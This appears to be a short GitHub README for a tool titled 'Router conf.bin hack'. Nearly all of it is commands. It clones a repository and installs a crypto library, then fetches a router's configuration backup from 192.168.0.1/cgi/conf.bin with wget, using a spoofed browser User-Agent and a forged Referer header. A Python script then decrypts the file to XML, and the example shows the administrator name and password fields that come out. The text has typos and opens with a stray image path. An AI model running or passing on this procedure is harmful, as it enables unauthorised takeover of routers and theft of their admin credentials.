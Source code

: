 ```yaml
---
# Router conf.bin hack
---
```


``` apt update && apt upgrade ```

``` git clone https://github.com/princeicon2712/conf.rejaul.git ```

``` cd conf.rejaul ```

``` pip install pycryptodome ```
## Conf.bin file Downlod Now:

``` wget -d --header="User-Agent: Mozilla/5.0 (Windows NT 6.0) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.97 Safari/537.11" --header="Referer: http://192.168.0.1/mainFrame.htm" --header="Accept-Encoding: compress, gzip" http://192.168.0.1/cgi/conf.bin ```
## conberd conf.bin from conf.xml:

``` python rejaul.py conf.bin conf.xml ```

---
## conf.xml see Example:
---

``` <AdminName val=Alexis /> ```
``` <AdminPwd val= password /> ```


